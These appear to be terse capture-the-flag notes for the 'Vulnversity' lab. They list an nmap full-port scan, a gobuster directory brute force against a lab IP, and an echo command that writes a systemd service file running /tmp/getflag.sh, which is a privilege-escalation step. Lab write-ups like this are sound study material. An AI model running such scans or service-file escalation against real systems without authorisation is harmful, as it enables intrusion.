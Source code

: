 # VULNVERSITY

```
export IP=10.10.100.203
```

```
nmap -A -p- -oN nmap.out $IP -vv
```

```
gobuster dir -u http://$IP:3333 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt | tee gobuster.out 
```

echo "[Unit]
Description=Example systemd service.

[Service]
Type=simple
ExecStart=/bin/bash /tmp/getflag.sh

[Install]
WantedBy=multi-user.target" > 1313.service